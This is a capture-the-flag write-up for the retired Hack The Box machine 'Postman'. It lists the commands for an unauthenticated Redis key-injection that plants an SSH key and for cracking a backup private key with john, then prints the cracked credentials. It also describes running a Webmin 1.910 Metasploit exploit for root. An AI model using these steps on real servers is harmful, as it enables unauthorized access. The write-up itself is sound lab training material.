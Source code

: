 ```yaml
---
layout: default
---
```

## Postman
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/ad38e890e4e93afce51118bec4b9f48b.png)

I think and hope this is my last writeup before I discovered [Greenshot](https://getgreenshot.org/). Just want to show love for a great application that has greatly improved my image "editing". 

Anyway, Postman was a really easy machine loaded up with a couple of quick CVEs that exploited Redis for user and Webin for root. I’ve already added the machine to my /etc/hosts file as postman.htb. As always, I started with ```nmap```.

```bash
nmap -T5 -A -p 1-65535 postman.htb -n -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/postman/nmap.JPG)

nmap showed that SSH, HTTP, Redis, and Webmin MiniServ were available on this machine. I did a quick glance at the website. 

![](https://yaboygmoney.github.io/htb/images/postman/website.JPG)

Nothing much was going on with the main page in the source. I ran gobuster and found some directories that sounded interesting but didn’t provide anything. That was expected, as the other services looked a little more interesting.

Checking out Redis version 4.0.9, I was quickly pointed to an [RCE exploit](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). I checked for remote command execution vulnerability of the remote host with telnet first.

```bash
telnet postman.htb 6379
ECHO "Vulnerable"
```

![](https://yaboygmoney.github.io/htb/images/postman/vulncheck.JPG)

The system echoing back is a good sign. To take advantage of this exploit, I first needed to get redis tools. 

```bash 
apt-get install redis-tools
```

From there, it’s as easy as following the [CVE](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html).

```bash
ssh-keygen -t rsa -C “redis@postman.htb”
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
redis-cli -h postman.htb flushall
cat foo.txt | redis-cli -h postman.htb -x set crackit
redis-cli -h postman.htb
config get dir
config set dbfilename “authorized_keys”
save
```

![](https://yaboygmoney.github.io/htb/images/postman/sshprep.JPG)

Now I’m set to use the new key I just generated.

```bash
ssh -i id_rsa redis@postman.htb
```

![](https://yaboygmoney.github.io/htb/images/postman/redisLogin.JPG)

Successfully logged in, I can see that there’s only a single user’s home directory present: Matt. I half-heartedly try to cat the user flag and, as expected, am denied.

![](https://yaboygmoney.github.io/htb/images/postman/denied.JPG)

During enumeration, I found a backup file “id_rsa.bak”. A quick way to do this is to run

```bash
locate *.bak
```

![](https://yaboygmoney.github.io/htb/images/postman/locate.JPG)

An RSA private key. I copied the contents of that file back into gedit and saved it. Then, I ran it against the tool ssh2john. This tool converts an SSH key to a hash that John can crack.

```bash
/usr/share/john/ssh2john.py mattkey > mattkey.hash
```

After I’ve converted the key to a hash, I can run john against it to carve out the password.

```bash
john –wordlist=/usr/share/wordlists/rockyou.txt mattkey.hash
```

![](https://yaboygmoney.github.io/htb/images/postman/cracked.JPG)

I’ve now got a full-fledged set of creds: Matt:computer2008. Now that I have Matt’s password, I can ```su``` to Matt and get the user flag from the redis ssh session.

![](https://yaboygmoney.github.io/htb/images/postman/user.JPG)

Looking back at the nmap results, Webmin MiniServ 1.910 is served up on port 10000. There is an [exploit](https://www.exploit-db.com/exploits/46984) created for this version for any authenticated user to execute the package updates module as root. I downloaded the exploit and loaded it into my Metasploit exploits.

```bash
cd ~/.msf4/modules/exploits/linux
wget https://www.exploit-db.com/exploits/46984
msfconsole
```
Then I queue the exploit.

![](https://yaboygmoney.github.io/htb/images/postman/payload1.JPG)

I tried sending that configuration and got an error, no session. Then I remembered that the Webmin server was running on HTTPS and set SSL to True in Metasploit and fired again.

![](https://yaboygmoney.github.io/htb/images/postman/rooted.JPG)

Success. The CVE is exploited.

Until next time.

#### Keep trying
